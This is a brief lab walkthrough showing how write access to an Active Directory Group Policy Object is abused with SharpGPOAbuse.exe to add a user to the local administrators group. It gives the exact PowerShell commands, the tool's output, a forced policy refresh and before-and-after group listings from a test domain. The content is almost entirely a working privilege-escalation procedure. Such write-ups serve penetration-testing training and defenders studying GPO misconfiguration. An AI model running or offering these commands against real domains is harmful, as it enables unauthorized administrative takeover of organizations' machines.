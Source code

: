 https://github.com/FSecureLABS/SharpGPOAbuse

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master

users has gpo write permissions

![image](https://user-images.githubusercontent.com/13157446/137199957-d1dd3c7e-3843-4ccb-8ed0-3564a935d698.png)


we will use "SharpGPOAbuse.exe "  and edit gpo to add a user to local admin group

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	adm1n
	Administrator
	nightmare
	VALHALLA\Domain Admins
	win10
	The command completed successfully.


	PS C:\Users\testuser\Desktop\PowerSploit\Recon> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount mrblack --GPOName "vulngpo"
	[+] Domain = valhalla.local
	[+] Domain Controller = odin.valhalla.local
	[+] Distinguished Name = CN=Policies,CN=System,DC=valhalla,DC=local
	[+] SID Value of mrblack = S-1-5-21-3410397846-649609989-2919355437-2121
	[+] GUID of "vulngpo" is: {15DD3A52-32EB-4A98-ACAF-476C235E7968}
	[+] Creating file \\valhalla.local\SysVol\valhalla.local\Policies\{15DD3A52-32EB-4A98-ACAF-476C235E7968}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
	[+] versionNumber attribute changed successfully
	[+] The version number in GPT.ini was increased successfully.
	[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
	[+] Done!
	

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> gpupdate /force
	Updating policy...

	Computer Policy update has completed successfully.
	User Policy update has completed successfully.


	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	Administrator
	VALHALLA\mrblack
	The command completed successfully.


	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adm1n                    Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon>
